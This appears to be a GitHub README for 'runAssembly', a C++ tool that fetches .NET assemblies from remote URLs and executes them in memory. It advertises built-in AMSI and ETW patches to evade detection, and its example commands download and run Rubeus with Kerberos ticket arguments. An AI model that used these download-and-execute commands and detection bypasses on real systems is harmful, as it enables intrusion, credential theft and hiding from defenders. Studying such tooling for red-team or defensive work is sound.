

# Assembly Loader Tool

A C++ tool for loading and executing .NET assemblies from remote URLs with built-in AMSI/ETW bypass capabilities.

This tool must be compiled with C++17 standard support.
## Features

- **Remote Assembly Execution**: Load and run .NET assemblies directly from HTTP/HTTP URLs
- **AMSI Bypass**: Built-in patch for Anti-Malware Scan Interface
- **ETW Bypass**: Built-in patch for Event Tracing for Windows
- **TLS Support**: Secure HTTPS connections
- **Argument Passing**: Forward custom arguments to the loaded assembly

## Usage

```cmd
.\runAssembly.exe --url <http://host:port/path> [--] [extra_args]
```


[](https://www.youtube.com/watch?v=I_lFJISol0Q)

### Options

| Option | Description |
|--------|-------------|
| `--url` | Full URL to the assembly (http or https) |
| `--help` | Show help message |
| `--` | Separator for extra arguments passed to the assembly |

**Note**: All options must appear before the `--` separator.

## Examples

```cmd
# Load assembly from HTTP URL
.\runAssembly.exe --url http://127.0.0.1:8000/rubeus.exe

# Load assembly from HTTPS URL with TLS enabled
.\runAssembly.exe --url https://example.com/rubeus.exe

# Load assembly and pass arguments to it
.\runAssembly.exe --url http://localhost/rubeus.exe -- klist

# Load from HTTPS with TLS and pass multiple arguments
.\runAssembly.exe --url https://127.0.0.1/rubeus.exe -- tgtdeleg /nowrap
```

## Security Features

- **AMSI Patch**: Automatically bypasses AMSI scanning for the loaded assembly
- **ETW Patch**: Disables Event Tracing for Windows to prevent detection

